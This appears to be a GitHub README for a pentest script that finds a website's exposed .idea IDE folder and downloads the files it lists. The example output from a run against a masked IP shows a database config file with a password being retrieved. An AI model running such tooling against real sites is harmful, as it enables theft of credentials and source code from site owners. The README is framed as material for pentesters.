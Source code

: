 # **.idea disclosure exploit**

A script use **.idea** folder to gather sensitive information for pentesters .

Websites not correctly deployed let their IDE config folder (**.idea**) exposed to hacker, 

which can lead password or archived data files leaked.

The scanner will try to download all files, please recheck local files by yourself.

## Requirements

```
pip install lxml requests
```

## Example

Our scanner reported a vulnerability this afternoon

![scanner_pannel](images/scanner_pannel.png)

As you can see,  the file **DbConnCfg.json** leaked db password.

```
D:\IQIYI.codebase\idea_exp>idea_exp.py http://107.{mask}.{mask}.151/
[+] Module name is {mask}
[+] Type is web_module
[+] About 67 urls to process
[200] /cfg/DbConnCfg.json
[200] /bi/applepay/comm.php
[200] /bi/applepay/ipn_ios.php
[404] /auth/auth_ios/auth_guest.php
...
[200] /ver/ver_util.php
All files saved to 107.{mask}.{mask}.151/idea_exp_report.html
```

![contain_password](images/contain_password.png)